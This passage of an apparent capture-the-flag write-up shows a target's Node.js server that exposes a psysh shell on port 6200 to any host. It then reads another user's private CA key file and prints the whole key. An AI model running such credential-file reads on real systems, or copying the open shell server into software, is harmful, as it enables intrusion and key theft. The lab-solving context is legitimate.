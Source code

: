 ```bash
   const server = net.createServer(function(socket) {\n
       const sh = spawn('/usr/bin/psysh')\n
       sh.stdin.resume()\n
       sh.stdout.on('data', function (data) {\n
           socket.write(data)\n
       })\n
       sh.stderr.on('data', function (data) {\n
           socket.write(data)\n
       })\n
       socket.on('data', function (data) {\n
   \ttry {\n
             sh.stdin.write(data)\n
   \t}\n
   \tcatch(e) {\n
   \t  socket.end()\n
   \t}\n
       })\n
       socket.on('end', function () {\n
       })\n
       socket.on('error', function () {\n
       })\n
   });\n
   \n
   server.listen(6200, '0.0.0.0');\n
```

We see that server.js which is in dali’s home dir is serving the psyshell. 

We go into user nairobi’s home dir, and found the ca.key:

```bash
   file_get_contents("/home/nairobi/ca.key")
   
 -----BEGIN PRIVATE KEY-----\n
 MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
 7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
 2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
 uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
 YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
 s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
 PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
 Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
 1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
 /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
 q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
 uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
 I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
 7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
 G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
 sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
 CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
 sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
 ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
 zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
 ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC\n
 9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M\n
 WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM\n
 7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR\n
 aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc\n
 53udBEzjt3WPqYGkkDknVhjD\n
 -----END PRIVATE KEY-----\n

```
